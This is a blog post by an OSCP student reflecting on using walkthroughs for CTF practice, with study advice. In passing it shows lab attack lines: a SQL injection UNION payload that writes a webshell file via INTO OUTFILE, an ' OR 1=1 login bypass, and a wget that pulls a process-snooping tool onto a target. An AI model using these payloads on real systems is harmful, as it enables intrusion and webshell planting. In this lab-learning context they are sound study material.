


Walkthroughs. 

Both a bane and boon to my life. 

I thought I might want to reflect upon its meaning upon my life

If you are just starting out on your OSCP journey, you might want to read this old person's ramblings

And as usual, if you are impatient, you can just go straight to the [summary](#summary)

## Trip down memory lane

My very first encounter to walkthroughs was when I was browsing through  [Books Kinokuniya](https://en.wikipedia.org/wiki/Books_Kinokuniya)

I saw on a shelf, so many books with colorful covers and spotted a familiar one of a [Orc facing down a Human](https://en.wikipedia.org/wiki/Warcraft:_Orcs_%26_Humans). Just recently completing the game, I was amused and intrigued. The book promised secrets on completing the campaigns. 

Why would I need a book to complete the game that I already did? Perhaps they indeed contained tactics that I was unfamiliar with

I was considering buying it but since I didn't have much allowance as a student, there was no way I could afford it, nor would my parents indulge me in this considering how people mostly saw game playing as a distraction from studying

But this incident told me something that I never realised despite having played so many games for a couple of years. 

There were solutions available for games that you could not solve or progress

## You get a walkthrough, you get a walkthrough, everyone gets a walkthrough!

Around the same period, we started to experience the beginnings of the [internet](https://www.pacificinternet.com/remember-pacific-internet/?doing_wp_cron=1772996518.9044990539550781250000) boom.

With internet, along came [GameFAQs](https://en.wikipedia.org/wiki/GameFAQs), which was such the ultimate site to find all your favourite game walkthroughs

Now you don't have to spend top dollar to purchase a walkthrough. 

In the early days there were hardly any walkthroughs. 

Most of the time back then, I could not find a single walkthrough for the games I was playing or used to play and I wanted to see if I could move on from the point that I was stuck on

Over the years progressively people started writing and uploading more walkthroughs, so it made game playing so much easier. 

No more getting stuck in the maze!


Today, people will watch twitch streams and youtube videos since it is much easier  to visualize and see the solution in motion. 

And of course today's games are less of a puzzle and more skill driven, so describing how to execute a skill is difficult without actually demonstrating it

## CTF and using walkthroughs

CTF is very much similar to games of old, where it is more of a puzzle

Using one of the many tactics of games of today,  CTF platforms give you [incentives](https://en.wikipedia.org/wiki/Gamification) to participate with seasonal tournaments and rankings. 

And just like games, plenty of walkthroughs exist for majority of the CTF boxes you might encounter

And similarly there would be walkthroughs that require payment, especially for those CTF challenges which have a strict [no walkthrough policy](https://www.offsec.com/legal/terms-and-conditions/#confidential-information)

Even though the[ try harder](https://www.offsec.com/blog/what-it-means-to-try-harder/) philosophy more or less discourages you to use walkthroughs, the one crucial thing about walkthroughs, is that it allows you to progress when you are just unable to figure out what to do next.

Frankly speaking, no matter how much you dig in, if you can't figure it out, you can't figure it out. No amount of time and resilience will resolve this. 

Of course there is a caveat to this. This is only true when you are still a beginner

I'll give a few examples of my own experience

## Watch it

One of the methods for tracing or looking out for processes which you might be able to utilize for privesec, given by the learning modules was using watch and ps.

```
watch -n 1 'ps -ef | tail -n 20'
```

Now if you ever actually used this for a CTF box, you know that, if a suspicious process ever pops up, you might see it pop up, but you would most likely be unable to catch the full path of the process on the first pass, or subsequent passes for that matter. 

After all, old people have reflexes of a snail

So you try fixing it with logging the output

```
watch -n 1 'ps -ef | tail -n 20' | tee -a output.txt
```

Which wasn't particularly satisfying since now its a mess of logs to wade through and from the beginning you are not sure if there was anything to find

Since it was not obvious to me at this point what other tools would be helpful for this situation, I wasn't able to progress for quite a while in this area and missed quite a few privesec, until I took a peek at a walkthrough and they used [pspy](https://github.com/DominicBreuker/pspy).

This was rather straight forward to download to your host, upload to the target and simply run pspy64

On the target machine, you would run something like this

```
wget http://$host_ip/pspy64
chmod a+x ./pspy64
./pspy64
```

Now there is nothing wrong with the first method, since it may be possible that you can only use [tools](https://gtfobins.org/) found on your target machine, but doing CTFs are already quite difficult for people new to the field. Why make it harder and more tedious when there are some useful tools you can fully utilize

This also kick-started other processes, for example always having scripts ready to start up a file server (http/ftp/smb) for you to download files from.

Honestly speaking, I would have never been able to find this on my own, considering this is my first foray into the pentesting world, and how unfamiliar I was, and there was so much information out there, it was practically a[ fog of war situation](https://en.wikipedia.org/wiki/Fog_of_war)

## Speedrunning your CTF

I often see this in some of the [forums](https://www.reddit.com/r/oscp/) I visit

*I completed all of Lainkusanagi's list of CTF machines from PGP and I still failed*

Not suggesting I know the exact cause of a fellow student's failure, but I find that walkthroughs are very addictive. Once you start using them, it's difficult to stop

One of the tempting things when you have access to walkthroughs, which btw I'm not immune to either, is to simply use it and complete the CTF machine like a checklist of things to do.

After all, didn't someone once mentioned that you only needed [10000 hours](https://en.wikipedia.org/wiki/Outliers_(book)) to become an expert?

Due to time constraints (perhaps you can only spare a few hours a week to dedicated studying), you would simply follow the walkthrough and call it a night after 4 hours. Only 9996 more hours to go! 

And there would be some, that would simply read the walkthrough and decide, they already **know** it, and since the exam is open book, you can just rely on searching for it if it comes out. After all, how hard can it be? No need to practice!

This is where the try harder philosophy is vaguely trying to warn you about. When you rely on a crutch to walk, how can you possibly run or jump without it in the exam situation?

## Learn like a pro

The advice in the forums echos my own belief as well

You are supposed to do the CTFs blind like an exam situation. If you don't get used to it, you will never be able to figure out the CTF under a stressful time sensitive situation




This is how I personally do it. 

You should decide for yourself what your own study plan is. Perhaps you need more steps in between. Perhaps you need more than a walkthrough

No matter how you do it, the most important part here is that you need to **review** after each and **every** CTF completed. 

If you are a working professional, you would do this too at the end of a project. 

Some obvious things to review, but not limited to this list

- Are you missing some tool in your arsenal? 
- If it was something you overlooked, how might you ensure it doesn't happen again?
- Was there a better or faster way to do it? Did other walkthroughs differ from your own method or from each other?
- Are you missing some steps in your process to do the CTF?

This is the only way you can improve

## Injection errors

One of my CTF box I was tackling had a SQL injection vulnerability.

Tried out my favorite injection command

```
' UNION SELECT FROM_BASE64(base64text) INTO OUTFILE '/var/www/html/webshell.php' FIELDS ESCAPED BY ''; -- //
```

Not working?

I took a long thorough look at the source code, and looked at the table schema. Spent a few hours going through everything with a fine toothed comb. Oh there are a few columns missing

Tried it again with the correct number of columns

```
' UNION SELECT FROM_BASE64(base64text) , null, null, null, null INTO OUTFILE '/var/www/html/webshell.php' FIELDS ESCAPED BY ''; -- //

```

Looked through the source code again, trying hard to figure out what was the issue. Was my injection wrong?

After another day of pondering and trying and looking at the source code, I finally decided to take a look at the objectives. 

It says, perform SQL injection. Gee, that's what I was doing!

Then taking a closer look at it again, it says perform SQL injection to **bypass authentication**

Good grief. It was simply

```
' OR 1=1 -- //
```

Post exploit, I took a look at the box to do a little post mortem analysis

Checking the running SQL server, i discovered that the secure_file_priv had a specific value

```
show variables like 'secure_file_priv';
```


This means no matter what I did, I would not have been able to insert into /var/www/html, and only into /var/lib/mysql-files, which would not be useful for me

One of my blindspots (which I'm still working on today btw) is that I would forget to start trying my attacks from the simplest ones to increasingly more complex exploits

Thereafter, I started writing gentle reminders in my script to always start from the easiest and progress to more difficult attack vectors, instead of jumping straight to the one I suspect based on some misinformed gut feeling
## Progressive Overload



You would hear this quite often in [gyms](https://en.wikipedia.org/wiki/Progressive_overload). 

In order to improve, you need to continually make it harder for yourself. Similarly you should find yourself relying less on hints and walkthroughs as you progress through your journey. 

Of course how you want to structure this overload is up to you as the individual. 

Perhaps you prefer to scale it in terms of difficulty, for example doing some CTF machines which are slightly out of scope, or ranked very hard. 

If your focus is on the exam, I would suggest trying to reach a stage where you can do CTF boxes blind, regardless if it's an easy or intermediate level box. You want to have the confidence when you are in the exam situation

In the beginning I had to take a lot of peeks at the walkthroughs and hints in order to proceed. 

Don't be discouraged if you are here. Everyone starts somewhere. You don't become an expert overnight

How long to wait before resorting to peeking or hints is really up to you. 

Sometimes I take a few hours, sometimes I take a day or so. You decide and take responsibility for your own situation

If you need to take longer to get to the final stage, then take the time to get there. There's no competition so everyone should take it at their own pace. 

But the key is that you **must** deliberately take the challenge for the next stage. All skill development is the same way. You have to do the things you are uncomfortable at to get good at it. 

## Go in reverse

There was a particular challenge lab that I was having trouble with. I was still pretty much a noob at this point, having just completed the modules and starting on the challenge labs

I got through quite a few machines but the scope was large. I got stuck midway trying to find a way to the domain administrator

Only a few walkthroughs were available out there, and i bumped into one that I immediately regret looking at. 

It just suddenly popped up the NT hash for the domain administrator. 

No explanations, nothing, and every subsequent machine's hash used this domain administrator hash to retrieve the flag...

One of the reasons why I dislike looking at walkthroughs. Frankly it almost ruined the entire challenge lab

I decided to make the best out of the situation. Since I was stuck, I wasn't sure what was the path forward, so I decided to reverse engineer and find the correct path. 

Like solving a maze starting from the end

I spent many days working on it. Looking through every machine, searching every directory for suspicious files, every environmental variable, every shared folder

In the end it was simply because I did not pay attention to bloodhound!

<details>
<summary>Spoiler warning!</summary>

One of the users had "Do not require Kerberos preauthentication" checked. 

Which of course means you can perform AS-REP Roasting!

Inside the users.json file for bloodhound it was 

```
"dontreqpreauth":true
```
</details>

## Summary

If you use walkthroughs, use them deliberately and purposefully. Peek to move forward when you are stuck, or use them to find alternative or improved methods

Review after every CTF and improve your process and methodology

Progressively make your CTFs more challenging
